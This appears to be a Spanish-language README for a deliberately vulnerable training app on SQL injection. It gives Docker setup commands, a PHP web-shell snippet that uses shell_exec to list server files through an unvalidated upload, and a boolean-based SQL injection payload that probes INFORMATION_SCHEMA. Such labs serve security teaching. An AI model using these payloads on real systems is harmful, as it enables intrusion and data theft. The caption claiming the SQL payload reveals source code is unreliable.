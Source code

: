 # SQL Injection

Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/SQLInjection
docker pull ghcr.io/ingenieroricardo/sqlinjection:latest
docker run --publish 8080:80 -v ./SQLInjection:/app ghcr.io/ingenieroricardo/sqlinjection:latest
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
hola' RLIKE (SELECT IF(COUNT(DISTINCT(table_schema))=1, 'hola', 0x28) FROM INFORMATION_SCHEMA.TABLES) AND 'TMTd'='TMTd
```
Con este codigo podemos ver codigo fuente
